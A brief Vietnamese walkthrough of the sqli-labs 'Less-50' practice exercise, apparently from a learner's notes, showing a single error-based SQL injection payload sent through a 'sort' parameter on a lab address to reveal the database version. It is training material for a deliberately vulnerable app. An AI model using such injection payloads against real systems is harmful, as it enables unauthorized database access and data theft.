



# Những việc làm được với lesson-50
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-50



Ta thử đăng nhập và sử dụng ký tự đặc biệt vào đó 



Ta nhận được kết quả có thông báo lỗi và ta có thể sử dụng được error-base 

```
192.168.80.225/sqli-labs/Less-50/?sort=1 and (SELECT 0 FROM (SELECT count(*), CONCAT((select @@version), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```



Tương tự như thế ta có thể biết được những dữ liệu của DB thông qua cách thay đổi câu truy vấn 

